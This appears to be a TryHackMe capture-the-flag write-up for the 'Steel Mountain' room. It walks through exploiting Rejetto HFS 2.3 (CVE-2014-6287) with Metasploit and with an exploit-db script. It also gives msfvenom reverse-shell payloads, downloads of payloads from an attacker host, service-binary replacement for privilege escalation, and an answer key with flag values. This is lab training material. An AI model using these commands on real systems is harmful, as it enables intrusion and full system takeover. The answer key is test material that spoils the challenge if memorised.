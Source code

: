 #tryhackme #ctf 
# Steel Mountain
---

## Nmap

|Port|State|Service|Version|
|-----|-----|--------|-----|
|80/tcp |   open | http  | Microsoft IIS httpd 8.5 |
|135/tcp |  open | msrpc  | Microsoft Windows RPC |
|139/tcp |  open | netbios-ssn   |     Microsoft Windows netbios-ssn|
|445/tcp  | open | microsoft-ds   |    Microsoft Windows Server 2008 R2 - 2012 microsoft-ds |
|3389/tcp | open | ssl/ms-wbt-server? | |
|8080/tcp  | open | http  | HttpFileServer httpd 2.3 |
|49152/tcp | open | msrpc | Microsoft Windows RPC |
|49153/tcp | open | msrpc | Microsoft Windows RPC |
|49154/tcp | open | msrpc | Microsoft Windows RPC |
|49155/tcp | open | msrpc | Microsoft Windows RPC |
|49156/tcp | open | msrpc | Microsoft Windows RPC |

Visit the web server on port 80
- *Found an image*
Inspect the image to find the name of employee **Bill Harper**

Visit the web server on port 8080
- *Found Rejetto HTTP File Server 2.3*

Use searchsploit to find exploit for the file server
- *Found CVE-2014-6287*

## Using Metasploit Framework
Use msfconsole to search for this cve
`msfconsole`
`search <CVE>`

Then exploit to gain shell
`use <exploit>`
`show options` - This will list all available options

Now set the required options using the `set <OPTION> <VALUE>` and run
`exploit`

- *Gained shell :)*

`cd bill\Desktop`
`type user.txt`
- *[FLAG 1]*

Use meterpreter to upload [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/bloWithb/master/Privesc/PowerUp.ps1) (for enumeration) to the target
`upload <path to PowerUp.ps1>`
`load powershell`
`powershell_shell` -> powershell in meterpreter

Then run the script
`. .\PowerUp.ps1`
`Invoke-AllChecks` - this starts enumeration 
- *Found AdvancedSystemCareService9 vulnerable - it has the CanRestart option set to true*

Use msfvenom to generate payload (the output file should have the same name as the service as we have to overwrite it)
`msfvenom -p windows/shell_reverse_tcp LHOST=<tun0 IP> LPORT=<port> -e x86/shikata_ga_nai -f exe -o ASCService.exe`

Upload payload to target
`upload <path to ASCService.exe>`

Start a listener on MSF using multi/handler (in new terminal window)
`use multi/handler`

And set the required options
`set <OPTION> <VALUE>`

on the target terminal, stop the vulnerable service
`sc stop AdvancedSystemCareService9`

Now copy the payload ASCService.exe to the path of service
`copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

Start the service again
`sc start AdvancedSystemCareService9` 
- *Gained root shell ;D*

`cd \Administrator\Desktop`
`type root.txt`
- *[FLAG 2]*

---

## Without Metasploit Framework
Download the [nc.exe](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe) (netcat binary for windows) and [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) (for Windows enumeration)

Download the exploit script from [exploit-db.com](https://www.exploit-db.com/exploits/39161) for the found CVE (CVE-2014-6287)

Edit `ip_addr` and `local_port` in the exploit script

In order for this attack to work, it will require a web server and netcat listener to be active at the same time. So, we need 3 terminals for this:

Terminal 1:
- Create a local python server 
`python3 -m http.server 80`

Termianl 2:
- Listen to port using netcat
`nc -lvnp <listening-port>`

Terminal 3:
- Run the script
`python <script-name> <target-ip> <target-port>` 

**Note:** The final command needs to be run TWICE - the first instance will pull the netcat binary to the target and the second will execute the payload to gain a callback within the listener.

- *Gained shell*

Upload winPEAS.exe using powershell
`powershell -c "Invoke-WebRequest -OutFile winPEAS.exe http://10.14.14.19:2311/winPEASx64.exe"`

Then run  `winPEAS.exe`

![winpeas](https://blog.razrsec.uk/content/images/2020/05/image-82.png)

Generate payload using msfvenom and repeat the steps as we did in the previous section (Using Metasploit Framework) to gain root shell.
`msfvenom -p windows/shell_reverse_tcp LHOST=<tun0 IP> LPORT=<port> -e x86/shikata_ga_nai -f exe -o ASCService.exe`

Upload payload to target ([[Transferring Files]]) by running a server on attacker machine
`python3 -m http.server 80`

And getting the file on target machine
`powershell -c "Invoke-WebRequest -OutFile ASCService.exe http://10.14.14.19:2311/ASCService.exe"`

Start a netcat listener on the attacker machine 
`nv -lvnp <port>`

Stop the legitimate service running and replace the application file with our malicious binary:
`sc stop AdvancedSystemCareService9`
`copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

Start the service again
`sc start AdvancedSystemCareService9`

- *Gained root shell ;D*

`cd \Administrator\Desktop`
`type root.txt`
- *[FLAG 2]*

---

1. Employee of the month 
**Bill Harper (found by inspecting page source)**

2. Scan the machine with nmap. What is the other port running a web server on?
**8080**

3. Take a look at the other web server. What file server is running?
**Rejetto HTTP File server (version 2.3)**

4. What is the CVE number to exploit this file server?
**2014-6287**

5. Use Metasploit to get an initial shell. What is the user flag?
**b04763b6fcf51fcd7c13abc7db4fd365**

6. What is the name of the service which shows up as an unquoted service path vulnerability?
**AdvancedSystemCareService9**

7. What is the root flag?
**9af5f314f57607c00fd09803a587db80**

---